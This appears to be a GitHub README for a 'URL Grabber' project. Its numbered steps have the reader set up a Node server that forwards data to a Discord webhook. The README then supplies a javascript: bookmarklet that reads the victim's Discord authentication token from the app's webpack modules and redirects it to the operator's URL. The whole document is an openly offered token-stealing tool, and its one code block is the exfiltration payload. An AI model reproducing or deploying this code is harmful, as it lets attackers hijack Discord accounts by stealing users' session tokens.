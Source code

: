 # URL Grabber Made By Bhuvnesh#0102

## How To Use? 🤔

1. Make Sure if [Node.js](https://nodejs.org "Download Node.js")@^16.6 is installed (ignore if in repl.it)
2. Clone this Repo in Your PC or Repl.it 
3. Replace `WEBHOOK URL` with you own webhook url in `config.json`
4. `npm install` to install all deps :)
5. `node index.js` to start server
6. Copy the URL if in repl.it
7. Get Yourself The "Code" to get Token, See Below For Code
8. Replace `REPLACE WITH YOUR URL` with your URL :)
9. You Got you Code Now :)
10. Now Use it, If You Still dont know how to use it! **May God Help You**

## Code
```js
javascript:(async() => { const token = (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken();window.location.href = `REPLACE WITH YOUR URL/?user=${token}`;})()
```


#### 🚧 If You Think this Code is skidded *aja kone me mil vro teko perms deta* 🚧
